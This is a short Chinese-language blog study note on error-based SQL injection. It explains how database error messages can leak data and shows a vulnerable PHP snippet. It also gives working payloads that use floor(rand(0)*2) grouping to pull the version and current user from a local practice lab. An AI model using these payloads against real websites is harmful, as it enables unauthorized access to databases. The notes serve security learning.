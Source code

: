 ```yaml
---
layout: post
title: "SQL注入-报错注入"
date: 2018-06-16
category: web安全
tags: web安全 sql注入 web安全进阶笔记
---
```


## 报错注入

### 01 报错注入原理

构造payload让信息通过错误提示回显出来  
应用场景：  
查询不回显内容，会打印错误信息  
Update、insert等语句，会打印错误信息  

	if($row)
	{
		echo 'Your Login name:'.$row['username'];
	}
	else
	{
		print_r(mysql_error());
	}

### 02 报错注入方法

	select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2));

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2)))--+

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select user()),0x7e,floor(rand(0)*2)))--+


报错注入只有32位长 




